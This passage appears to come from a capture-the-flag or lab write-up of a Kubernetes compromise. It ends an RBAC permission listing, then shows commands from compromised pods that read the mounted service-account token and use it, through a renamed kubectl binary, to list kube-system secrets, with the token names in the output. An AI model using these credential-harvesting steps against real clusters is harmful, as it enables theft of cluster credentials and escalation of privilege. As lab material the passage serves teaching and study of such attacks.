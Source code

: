 ```console
                                                [/openapi/*]                          []               [get]
                                                [/openapi]                            []               [get]
                                                [/openid/v1/jwks]                     []               [get]
                                                [/readyz]                             []               [get]
                                                [/readyz]                             []               [get]
                                                [/version/]                           []               [get]
                                                [/version/]                           []               [get]
                                                [/version]                            []               [get]
                                                [/version]                            []               [get]
```
One interesting privilege is that we can list secrets.

## Checking if we could get secrets from our earlier shell
```console
root@webapp-deployment-5d764566f4-h5zhw:/tmp/py# kubectl --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` auth can-i list secrets -n kube-system
no
```


## Getting Secrets
```console
root@devnode-deployment-cd86fb5c-qlxww:~# ./ctlkube.new --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` get secrets -n kube-system
NAME                                             TYPE                                  DATA   AGE 
attachdetach-controller-token-5dkkr              kubernetes.io/service-account-token   3      146d
bootstrap-signer-token-xl4lg                     kubernetes.io/service-account-token   3      146d
c-admin-token-tfmp2                              kubernetes.io/service-account-token   3      146d
certificate-controller-token-thnxw               kubernetes.io/service-account-token   3      146d
clusterrole-aggregation-controller-token-scx4p   kubernetes.io/service-account-token   3      146d
coredns-token-dbp92                              kubernetes.io/service-account-token   3      146d
cronjob-controller-token-chrl7                   kubernetes.io/service-account-token   3      146d
daemon-set-controller-token-cb825                kubernetes.io/service-account-token   3      146d
default-token-l85f2                              kubernetes.io/service-account-token   3      146d
deployment-controller-token-cwgst                kubernetes.io/service-account-token   3      146d
............................[snip]..............................
root-ca-cert-publisher-token-cnl86               kubernetes.io/service-account-token   3      146d
service-account-controller-token-44bfm           kubernetes.io/service-account-token   3      146d
service-controller-token-pzjnq                   kubernetes.io/service-account-token   3      146d
statefulset-controller-token-z2nsd               kubernetes.io/service-account-token   3      146d
storage-provisioner-token-tk5k5                  kubernetes.io/service-account-token   3      146d
token-cleaner-token-wjvf9                        kubernetes.io/service-account-token   3      146d
ttl-controller-token-z87px                       kubernetes.io/service-account-token   3      146d
```
